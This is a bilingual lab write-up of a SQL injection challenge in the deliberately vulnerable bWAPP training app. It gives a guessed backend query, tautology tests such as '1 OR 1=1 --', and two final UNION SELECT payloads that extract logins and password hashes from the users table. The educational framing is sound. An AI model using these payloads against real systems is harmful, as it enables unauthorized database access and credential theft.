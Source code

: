 # SQL Injection (GET/Select)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](README.en.md)
- 🇷🇺 [Русский](README.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***SQL Injection vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low

# Target
---

![hehe](images/SqliGetSelectTarget.png)

# Functionality
---

The application allows us to choose a movie from the list provided:

![hehe](images/SqliGetSelectFunction.png)

### Probable SQL query:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Exploitation
---

Testing with standard payload `1' OR 1=1 -- ` returned an error, yet the `1 OR 1=1 -- ` didn't fail:

![hehe](images/SqliGetSelectTest.png)

Passing a `UNION` based payload earlier used in [[19.09.2025/SQL Injection (GET Search)/README.en]] didn't return any errors, yet did not allow to retrieve any information from the (likely) users table:

![hehe](images/SqlietGetSelectTest2.png)

Passing `UNION` based payloads with `ORDER BY` additions allowed to retrieve data from the `users` table by modifying the `ORDER BY` parameter:

![hehe](images/SqliGetSelectPwd.png)

![hehe](images/SqliGetSelectUsers.png)

## Final payloads

Retrieving hashed password entries:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 --
 
```

Retrieving login entries:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 --
 
```
